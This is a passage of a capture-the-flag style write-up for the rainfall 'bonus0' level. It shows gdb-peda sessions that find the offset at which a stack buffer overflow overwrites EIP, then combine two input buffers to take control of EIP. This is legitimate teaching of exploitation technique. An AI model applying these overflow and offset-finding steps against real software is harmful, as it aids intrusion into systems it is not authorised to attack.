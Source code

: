 	(gdb-peda)$ pattern create 200
	'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'

	(gdb-peda)$ r
	Starting program: /home/nico/42/rainfall/bonus0/Ressources/bonus0
	 -
	AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
	 -
	AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
	AAA%AAsAABAA$AAnAACAAAA%AAsAABAA$AAnAACA AAA%AAsAABAA$AAnAACA

	Program received signal SIGSEGV, Segmentation fault.
	....

	(gdb-peda)$ pattern search
	Registers contain pattern buffer:
	EBP+0 found at offset: 9
	EIP+0 found at offset: 13
	No register points to pattern buffer
	Pattern buffer found at:
	0x0804a1b4 : offset    0 - size   20 ([heap])
	0x0804a1c9 : offset    0 - size   20 ([heap])
	0xffffc280 : offset    0 - size  200 ($sp + -0x10c0 [-1072 dwords])
	0xffffd2bc : offset    4 - size    8 ($sp + -0x84 [-33 dwords])
	0xffffd2d0 : offset    4 - size   12 ($sp + -0x70 [-28 dwords])
	0xffffd31a : offset    0 - size   20 ($sp + -0x26 [-10 dwords])
	0xffffd32f : offset    0 - size   20 ($sp + -0x11 [-5 dwords])
	References to pattern buffer found at:
	0xffffc248 : 0xffffc280 ($sp + -0x10f8 [-1086 dwords])
	0xffffc274 : 0xffffc280 ($sp + -0x10cc [-1075 dwords])

We have the offset of the overflow. 13 for overwrite EIP, too small for inject a shellcode

Let's try with the 2 buffers

	(gdb-peda)$ r
	Starting program: /home/nico/42/rainfall/bonus0/Ressources/bonus0
	 -
	BBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
	 -
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	BBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAA AAAAAAAAAAAAAAAAAAAA

	Program received signal SIGSEGV, Segmentation fault.
	[----------------------------------registers-----------------------------------]
	EAX: 0x0
	EBX: 0x0
	ECX: 0xf7fac010 --> 0x0
	EDX: 0x3e ('>')
	ESI: 0xf7faa000 --> 0x1d6d6c
	EDI: 0xf7faa000 --> 0x1d6d6c
	EBP: 0x41414141 ('AAAA')
	ESP: 0xffffd340 --> 0x414141 ('AAA')
	EIP: 0x41414141 ('AAAA')
